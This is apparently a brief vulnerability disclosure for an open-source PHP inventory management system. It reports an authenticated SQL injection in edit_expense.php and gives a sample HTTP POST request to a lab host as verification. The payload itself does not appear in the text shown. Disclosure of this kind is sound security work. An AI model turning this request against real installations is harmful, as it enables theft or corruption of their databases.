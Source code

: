 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/action/edit_expense.php file, and an operation to update the information can be seen in the code snippet.

![image-20250326144610763](images/image-20250326144610763.png)





Vulnerability verification：

```
POST /ample/app/action/edit_expense.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie:  PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

id=1&expense_date=2023-01-01&expense_for=1&expense_amount=1&exp_descrip=1&expense_catagory=1
```

 ![image-20250326144556826](images/image-20250326144556826.png)



































